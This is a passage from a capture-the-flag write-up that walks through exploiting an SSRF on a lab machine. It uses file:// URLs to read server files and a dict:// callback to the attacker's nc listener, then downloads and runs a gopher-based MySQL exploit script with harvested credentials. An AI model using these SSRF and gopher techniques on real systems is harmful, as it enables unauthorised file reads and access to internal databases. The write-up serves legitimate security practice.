 When I go through all of them, then I can not find any useful. When I try to get the `.htaccess` from the webroot:
```shell
$ curl -s "http://192.168.2.25/internalResourceFeTcher.php?url=
> file:///var/www/html/.htaccess" | grep "</body>" -A1000

<files horcrux1.txt>
...SNIPPED...
```
Then I identify the name of the file that contains the first flag. When I use the path traversal to get that file:
```shell
$ curl -s "http://192.168.2.25/internalResourceFeTcher.php?url=
> file:///var/www/html/horcrux1.txt" | grep "</body>" -A1000
```
Then I get the first flag `horcrux1.txt`:

![evidence](./static/14-censored-horcrux1.png)

And I keep exploring the `SSRF` with the path traversal, but I can not find anything useful, I was stuck, and I decided to leave the machine, and after a few weeks, I decided to take it again, and all the time I was thinking about what I have so far. When I google `user SSRF to connect to MySQL`, then I find the post [understandign SSRF](https://fluidattacks.com/blog/understanding-ssrf/), and I see that I can use the `dict://` URL schema.

When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the following `curl` command:
```shell
$ curl -s \"http://192.168.2.25/internalResourceFeTcher.php?url=
> dict://192.168.2.31:1234/test"
```
And I check the terminal where I open the listener, then I can see:
```shell
...SNIPPED...
CLIENT libcurl 7.64.0
test
QUIT
```
And I can see the `libcurl 7.64.0`, and that version is not vulnerable to `CVE-2009-0037`, but it was helpful, now I know I can use multiple `URL` schemes, and maybe there is a `URL` scheme that will allow me to connect to `MySQL`. When I google `curl URL scheme supported`, then I find [the curl manpage](https://curl.se/docs/manpage.html). When I read and search for some protocols that look promising, then I identify the `gopher` protocol, and that allows me to communicate with any TCP port. When I google `GOPHER protocol to connect MySQL`, then I find the post [SSRF uses gopher to attack mysql and intranet](https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html), and the way it works is to use the raw bytes that are sent over TCP, and the author also mentions the following from the [mysql_gopher_attack GitHub repository](https://github.com/FoolMitAh/mysql_gopher_attack). When I download the `exploit.py` script:
```shell
$ wget "https://raw.githubusercontent.com/FoolMitAh/mysql_gopher_attack/
> master/exploit.py"
```
When I test it with a common query, and the `MySQL` data I found in the `configuration.php` file:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "select now()" -v
```